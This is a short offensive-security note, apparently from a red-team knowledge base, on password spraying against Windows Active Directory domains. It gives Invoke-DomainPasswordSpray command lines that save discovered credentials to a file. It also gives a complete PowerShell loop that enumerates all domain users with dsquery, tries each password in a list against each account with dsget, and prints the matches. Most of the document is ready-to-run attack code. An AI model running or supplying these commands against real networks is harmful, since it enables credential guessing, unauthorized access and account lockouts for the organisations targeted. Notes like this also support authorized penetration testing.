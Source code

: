 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - password-cracking
  - password-spraying
  - offensive-tools
  - windows
---
```

# Scripts

## DomainPasswordSpray

TODO: Fill this info

Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

Specifying a password list then check for [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

https://pwn.no0.be/exploitation/password/account_lockout/

```
PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

## SANS

```powershell
dsquery.exe user -limit 0 > users.txt
foreach ($FDN in Get-Content .\users.txt) {
    $results = dsget.exe user $FDN -samid
    $samid = $results[1].replace(" ", "")
    Write-Output $samid
    foreach ($password in Get-Content .\password.txt) {
        $password = $password.replace(" ", "")
        dsget.exe user $FDN -u $samid -p $password > $null
        if ($?) {
            Write-Output "Account: $samid\tPassword $password"
        }
    }
}
```

---
## References

### Github

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

### SANS

- [SANS: Usernames Matter More than Passwords](https://web.archive.org/web/20111008220143/https://it-audit.sans.org/blog/2011/09/21/usernames-matter-more-than-passwords)

### Pwnage Base

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

### Hacking Articles

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)